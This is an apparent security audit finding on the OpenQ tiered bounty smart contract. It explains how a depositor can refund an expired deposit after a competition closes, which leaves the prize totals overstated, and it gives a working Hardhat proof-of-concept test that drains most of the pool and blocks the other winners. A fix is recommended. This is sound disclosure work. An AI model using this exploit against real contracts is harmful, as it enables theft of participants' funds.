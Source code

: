 ast3ros

high

# [H-01] Capture the majority of the prize pool by exploiting the deposit and refund mechanism

## Summary

In a Tiered Percentage Bounty competition, it is possible for a participant to capture the majority of the prize pool by exploiting the deposit and refund mechanism. Specifically, a participant could deposit a big amount of funds into the competition, wait for the competition to close, and then withdraw their deposited funds. He could then front-run other winners to withdraw the majority of the prize pool before other winners can claim their share. 

## Vulnerability Details

When the competition is closed, the contract calculates the `fundingTotal` and uses it to calculate prize volume for each winning tier. 
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Bounty/Implementations/TieredPercentageBountyV1.sol#L132-L135
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Bounty/Implementations/TieredPercentageBountyV1.sol#L115-L116

However the underlying assets could be withdrawn by the funder if the deposit is expired.
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/DepositManager/Implementations/DepositManagerV1.sol#L163-L167 

It makes the `fundingTotal` overstating the total assets and calculating wrongly the prize volume. A participant could front-run others to withdraw the overstating amount.

In the POC, the malicious participant could set the deposit expiration to 1s for easily demonstrating. In reality, the malicious participant could set the deposit expiration so that it expires right after the competition is closed.

POC: Put in for using setup ./test/Bounty/TieredPercentageBounty.test.js

    describe('POC', () => {
		it('Malicious claimer gets majority of prize pool', async () => {
			// ARRANGE
			const volume = 1000;

			const [, firstPlace, secondPlace, thirdPlace, maliciousDepositer] = await ethers.getSigners();

			// Owner deposit 1000 LINK to competition
			await tieredContract.connect(depositManager).receiveFunds(owner.address, mockLink.address, volume, Constants.thirtyDays);

			// Malicious Depositer front run the close competition and deposit 500 LINK with expire time very short for example 1s and wait for competition close
			await mockLink.transfer(maliciousDepositer.address, 500);
			await mockLink.connect(maliciousDepositer).approve(tieredContract.address, 500);
			await tieredContract.connect(depositManager).receiveFunds(maliciousDepositer.address, mockLink.address, 500, 1);

			//  1s pass
			ethers.provider.send("evm_increaseTime", [1]);

			const depositId = (await tieredContract.getDeposits())[1];

			// Competition closed
			await tieredContract.connect(claimManager).closeCompetition();

			// ASSUME

			const bountyMockTokenBalance = (await mockLink.balanceOf(tieredContract.address)).toString();
			expect(bountyMockTokenBalance).to.equal('1500');

			const claimerMockTokenBalance = (await mockLink.balanceOf(firstPlace.address)).toString();
			expect(claimerMockTokenBalance).to.equal('0');

			// ACT

			// Right after the competition closes, malicious depositer withdraws all 500 LINK
			await tieredContract.connect(depositManager).refundDeposit(depositId, maliciousDepositer.address, 500);
			await tieredContract.connect(claimManager).claimTiered(firstPlace.address, 0, mockLink.address);

			// // ASSERT	

			// Malicious winner claims 90% of the price pool when it should have only 60%
			const newClaimerMockTokenBalance = (await mockLink.balanceOf(firstPlace.address)).toString();
			expect(newClaimerMockTokenBalance).to.equal('900');
			
			expect(await mockLink.balanceOf(tieredContract.address)).to.equal('100');

			// ACT
			
			// Second place winner cannot withdraw
			await expect(tieredContract.connect(claimManager).claimTiered(secondPlace.address, 1, mockLink.address)).to.be.revertedWith('ERC20: transfer amount exceeds balance')

			// // ASSERT
			const secondPlaceMockTokenBalance = (await mockLink.balanceOf(secondPlace.address)).toString();
			expect(secondPlaceMockTokenBalance).to.equal('0'); // 300->450

			// ACT

			// Third place winner cannot withdraw
			await expect(tieredContract.connect(claimManager).claimTiered(thirdPlace.address, 2, mockLink.address)).to.be.revertedWith('ERC20: transfer amount exceeds balance')

			// // ASSERT
			const thirdPlaceMockTokenBalance = (await mockLink.balanceOf(thirdPlace.address)).toString();
			expect(thirdPlaceMockTokenBalance).to.equal('0'); //100->150
		});
	});


## Impact

Malicious participant captures majority of the fund. Fund of other participant are lost. In the case of POC, they could not withdraw any of the fund. 

## Code Snippet

https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Bounty/Implementations/TieredPercentageBountyV1.sol#L132-L135
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Bounty/Implementations/TieredPercentageBountyV1.sol#L115-L116
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/DepositManager/Implementations/DepositManagerV1.sol#L163-L167

## Tool used

Manual

## Recommendation

Add minimum days after the competition closes a depositor could withdraw the fund. Between that period of time, all the participants should claim their rewards. 